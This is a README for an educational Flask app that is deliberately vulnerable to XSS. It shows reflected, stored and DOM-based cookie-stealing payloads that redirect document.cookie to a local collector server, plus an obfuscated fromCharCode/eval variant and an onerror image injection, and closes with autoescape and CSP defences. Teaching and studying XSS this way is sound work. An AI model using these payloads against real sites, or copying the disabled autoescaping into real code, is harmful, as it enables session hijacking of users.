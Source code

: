# XSS-Demo (Extended)
Minimal, flask-powered python web app to demonstrate reflected and stored XSS attacks.
Less than 30 lines of Python + 40 lines HTML template.

![XSS Demo Screenshot](xss-demo-screenshot.png "XSS Demo Screenshot")

# Disclaimer

The current version is vulnerable to XSS.
This is meant for educational purposed only, please do not use it to attack websites.

# Quickstart

* Clone this repository.
* Create a [virtual environment](https://virtualenvwrapper.readthedocs.io/) (if you don't want to install `flask` in your global python environment) and 
  activate it.
* `pip install flask` to install flask in the virtual environment
* Run `flask run` in the vulnerable website folder
* Open [127.0.0.1:5000](http://127.0.0.1:5000/) in your webbrowser and have fun with XSS

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.


# How it works
## Conditions for this XSS payload to steal cookies from the user
* The [Content Security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) of the webpage must be misconfigured
  * [`httponly`](https://www.cookiepro.com/knowledge/httponly-cookie/) ensures that the cookies are not know by the javascript engine 
  * [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) must be incorrectly set
  * Redirection is not blocked.
* Autoescape must be off
  * There must be no autoescape at the side of the server.


# Demostrations of XSS
## Things to note BEFORE trying the demostration
* Go to [127.0.0.1:5000/cookie](http://127.0.0.1:5000/cookie) to create set a cookie for the main website
* Run `python app.py` in the malicious website folder to run the malicious server to collect the cookies

To delete the cookie:
* Go to inspect element
* Go to Application Tab
* Click on cookies
* Right click on the entry that you want to delete

## Demostration for reflected XSS
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the query blank
* Notice that the code is reflected inside the addressbar as a query.
* When the user clicks on the link containing the address, their cookies from the vulnerable website can be stolen

## Demostration for Stored XSS
### WARNING, this will spam ping the server as the page is loading
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the comment blank
* Notice that the code is stored within the website
* When the user access the website, their cookies will automatically stolen until the comment is removed

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.

## Demostration for DOM-Based XSS
* Key in `http://localhost:5000/?num=alert(123)` into the address bar
* An alert for 123 will appear as an alert

In order to do something similar to the above, we cannot directly, insert `window.location=document.location='http://127.0.0.1:1000/?c='+document.cookie;` into the address bar after the query as some characters might be escaped. The javascript in the DOM only has access to the raw escaped query string and not the unescaped string. Thus, another method is required.

In this case the `toString().constructor.fromCharCode` will be our best friend
* Make sure both servers are up
* Key in `eval(toString().constructor.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,39,104,116,116,112,58,47,47,49,50,55,46,48,46,48,46,49,58,49,48,48,48,47,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59))` after the `num?` query.

What does it do?
* `toString().constructor.fromCharCode(...)` converts the character code for the javascript into a javascript string
* `eval` will evalucate the string. The string above corresponds to `document.location='http://127.0.0.1:1000/?c='+document.cookie;`
* The evaluator inside the DOM will evaluate the code as `document.location='http://127.0.0.1:1000/?c='+document.cookie;` and execute the reflected attack

You can make use of the XSSQueryFormer inside the folder to experiment around with the different javascript codes to be inserted as the payload

Usage:
* `python XSSQueryFormer.py "{Javascript Code here}"` to convert your code to javascript
* `python XSSQueryFormer.py -h` to show help message


# Different ways of executing XSS

## Execution of XSS through image loading
* Go to the images tab of the website
* Add ```' onerror=document.location='http://127.0.0.1:1000/?c='+document.cookie;class=``` after the `#` symbol
* It will cause the xss script to execute and the cookie will be obtained by the malicious server

# Protection mechanisms

Of course you should never deactivate autoescaping in jinja/flask, so you should never have 
`{% autoescape false %}` in your production templates. 
<br>
This way you will always get the 
[standard HTML context filtering](https://flask.palletsprojects.com/en/1.1.x/templating/#controlling-autoescaping)
for variables in your templates.

The tooltip attack mentioned above can of course be avoided by using quotes correctly on 
[line 33 ](https://github.com/jh123x/xss-demo/blob/master/templates/index.html#L33):
```html
      <div title="{{ comment }}">
```

You can also test using 
[Content Security Policy headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) to 
disallow unsafe inline javascript by replacing 
[`app.py` line 16-18](https://github.com/jh123x/xss-demo/blob/master/app.py#L16-L18) with:

```python
    from flask import make_response
    r = make_response(render_template('index.html',
                      comments=comments,
                      search_query=search_query))
    r.headers.set('Content-Security-Policy', "script-src 'none'")
    return r
```


# Acknowledgements
This was forked from [bgres/xss-demo](https://github.com/bgres/xss-demo) 